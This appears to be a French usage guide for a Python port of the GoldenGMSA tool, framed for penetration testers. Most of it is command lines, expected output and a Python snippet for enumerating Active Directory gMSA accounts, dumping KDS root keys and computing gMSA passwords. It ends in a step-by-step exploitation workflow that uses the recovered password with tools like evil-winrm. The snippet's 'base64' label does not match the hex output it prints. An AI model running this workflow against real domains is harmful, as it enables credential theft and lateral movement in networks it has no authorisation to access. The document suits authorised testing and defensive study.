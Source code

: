 # Exemples d'utilisation de GoldenGMSA Python

## Prérequis

- Accès réseau au contrôleur de domaine Active Directory
- Credentials valides pour le domaine
- Python 3.7+ avec les dépendances installées

## Scénarios d'utilisation

### 1. Énumération des gMSA depuis un host Linux

```bash
# Se connecter au domaine et énumérer tous les comptes gMSA
python main.py -u 'pentester@corp.local' -p 'P@ssw0rd' --domain corp.local gmsainfo

# Avec un DC spécifique (par IP)
python main.py -u 'pentester@corp.local' -p 'P@ssw0rd' --domain corp.local --dc-ip 10.10.10.5 gmsainfo

# En utilisant LDAPS pour une connexion sécurisée
python main.py -u 'pentester@corp.local' -p 'P@ssw0rd' --domain corp.local --use-ssl gmsainfo
```

**Sortie attendue :**
```
Authentification au domaine corp.local...
Connecté au domaine corp.local

sAMAccountName:         svc_gmsa$
objectSid:              S-1-5-21-123456789-987654321-111111111-1234
rootKeyGuid:            46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb
msds-ManagedPasswordID: AQAAAEtEU0sCAAAAaAEAABAAAAADAAAA...
----------------------------------------------
```

### 2. Extraction des clés racine KDS

```bash
# Dumper toutes les clés racine KDS (nécessite privilèges élevés)
python main.py -u 'admin@corp.local' -p 'AdminP@ss' --domain corp.local kdsinfo

# Dumper une clé spécifique par GUID
python main.py -u 'admin@corp.local' -p 'AdminP@ss' --domain corp.local kdsinfo --guid 46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb
```

### 3. Calcul de mot de passe gMSA (Mode en ligne)

```bash
# Calculer le mot de passe d'un gMSA identifié
python main.py -u 'pentester@corp.local' -p 'P@ssw0rd' --domain corp.local compute --sid S-1-5-21-123456789-987654321-111111111-1234

# Avec forest spécifique
python main.py -u 'pentester@corp.local' -p 'P@ssw0rd' --domain corp.local --forest corp.local compute --sid S-1-5-21-123456789-987654321-111111111-1234
```

**Sortie attendue :**
```
Authentification au domaine corp.local...
Connecté au domaine corp.local

Mot de passe encodé en Base64:	YWJjZGVmZ2hpamtsbW5vcHFyc3R1dnd4eXoxMjM0NTY3ODkw...
```

### 4. Mode hors ligne (avec données exportées)

```bash
# Si vous avez déjà extrait les clés KDS et msds-ManagedPasswordID
python main.py compute \
    --sid S-1-5-21-123456789-987654321-111111111-1234 \
    --kdskey AQAAALm45UZXyuYB6Ln7smfkresAAAAQAAAAMgAAADgAAAA... \
    --pwdid AQAAAEtEU0sCAAAAaAEAABAAAAADAAAA...
```

### 5. Formats d'authentification

```bash
# Format UPN (User Principal Name)
python main.py -u 'user@corp.local' -p 'password' --domain corp.local gmsainfo

# Format NetBIOS
python main.py -u 'CORP\user' -p 'password' --domain corp.local gmsainfo

# Format simple (domaine ajouté automatiquement)
python main.py -u 'user' -p 'password' --domain corp.local gmsainfo
```

### 6. Workflow complet d'exploitation

```bash
# Étape 1: Énumérer les gMSA
python main.py -u 'user@corp.local' -p 'password' --domain corp.local gmsainfo > gmsa_list.txt

# Étape 2: Extraire les clés KDS (si privilèges suffisants)
python main.py -u 'admin@corp.local' -p 'adminpass' --domain corp.local kdsinfo > kds_keys.txt

# Étape 3: Calculer le mot de passe d'un gMSA cible
python main.py -u 'user@corp.local' -p 'password' --domain corp.local compute --sid <TARGET_SID>

# Étape 4: Utiliser le mot de passe pour accéder aux ressources
# (via impacket, evil-winrm, etc.)
```

### 7. Utilisation programmatique en Python

```python
from golden_gmsa import LdapConnection, LdapUtils, GmsaAccount, RootKey, GmsaPassword

# Établir la connexion
with LdapConnection(
    domain='corp.local',
    username='user@corp.local',
    password='password',
    dc_ip='10.10.10.5'
) as conn:
    LdapUtils.set_connection(conn)
    
    # Énumérer les gMSA
    gmsa_accounts = list(GmsaAccount.find_all_gmsa_accounts_in_domain('corp.local'))
    
    for gmsa in gmsa_accounts:
        print(f"Found gMSA: {gmsa.sam_account_name}")
        print(f"  SID: {gmsa.sid}")
        print(f"  Root Key GUID: {gmsa.managed_password_id.root_key_identifier}")
        
        # Extraire la clé racine
        root_key = RootKey.get_root_key_by_guid('corp.local', 
                                                 gmsa.managed_password_id.root_key_identifier)
        
        if root_key:
            # Calculer le mot de passe
            password = GmsaPassword.get_password(
                gmsa.sid,
                root_key,
                gmsa.managed_password_id,
                'corp.local',
                'corp.local'
            )
            print(f"  Password (base64): {password.hex()}")
```

## Gestion des erreurs

### Erreur: "Credentials invalides"
```bash
# Vérifier les credentials
python main.py -u 'user@corp.local' -p 'wrong_password' --domain corp.local gmsainfo
# Erreur: Credentials invalides
```

### Erreur: "Serveur LDAP injoignable"
```bash
# Utiliser --dc-ip pour spécifier l'IP du DC
python main.py -u 'user@corp.local' -p 'password' --domain corp.local --dc-ip 10.10.10.5 gmsainfo
```

### Erreur: "Aucun résultat trouvé"
```bash
# Vérifier que l'utilisateur a les permissions nécessaires
# Les comptes gMSA nécessitent des permissions de lecture spécifiques
```

